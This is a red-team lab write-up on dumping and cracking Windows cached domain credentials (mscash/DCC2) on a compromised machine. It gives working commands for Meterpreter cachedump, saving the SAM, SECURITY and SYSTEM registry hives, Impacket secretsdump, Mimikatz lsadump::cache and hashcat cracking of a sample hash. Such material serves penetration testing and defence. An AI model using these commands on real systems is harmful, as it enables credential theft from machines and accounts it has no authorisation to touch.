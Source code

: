 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```
hashdump
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-59-09.png>)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-53-09.png>)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-56-47.png>)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-57-28.png>)

### Mimikatz

```
lsadump::cache
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-32-15.png>)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-54-29.png>)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-57-55.png>)

## Where Are Domain Credentials Cached

This can be seen via regedit (running with SYSTEM privileges) in the following key:

```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-03-15.png>)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-10-00.png>)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}



